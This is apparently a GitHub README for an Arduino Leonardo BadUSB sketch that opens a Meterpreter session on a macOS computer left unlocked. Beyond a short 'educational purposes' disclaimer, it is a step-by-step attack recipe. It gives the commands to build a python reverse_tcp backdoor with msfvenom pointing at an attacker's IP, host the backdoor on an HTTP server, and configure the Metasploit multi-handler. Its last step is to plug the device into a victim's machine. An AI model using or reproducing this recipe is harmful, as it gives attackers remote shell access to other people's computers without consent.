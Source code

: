 # Description
A simple sketch for handle MacOS meterpreter session using an Arduino Leonardo (atmega32u4)
# Disclaimer
This sketch was created only for educational purposes. This script shows the danger of leaving your computer unlocked. The author respects the rights and freedom of each person and is not responsible for your actions.
# Demonstration
MacOS desktop:
![](https://github.com/cucurucuq/arduino_leonardo_macos_meterpreter/blob/main/badusb_macos.gif)
Kali:
![](https://github.com/cucurucuq/arduino_leonardo_macos_meterpreter/blob/main/capture_session.gif)
# Usage 
We need to use Metasploit Framework and simple http server, you can use Kali Linux

1. Generate a backdoor file
```
msfvenom -p python/meterpreter/reverse_tcp LHOST=attacker's IP LPORT=8080 > /var/www/html/path/to/file
```
2. Run simple HTTP server 
```
cd /var/www/html/
python3 -m http.server 8081
```
3. Open Metasploit and start multi-handler
```
use exploit/multi/handler
set payload python/meterpreter/reverse_tcp
set LHOST attacker's IP
set LPORT 8080
run
```
4. Download .ino file and Arduino IDE
5. Update attacker's IP, host, port and path to backdoor file using Arduino IDE
6. Upload this sketch to your Arduino Leonardo using Arduino IDE
7. Put your BadUSB to victim and wait a capture of meterpreter session!
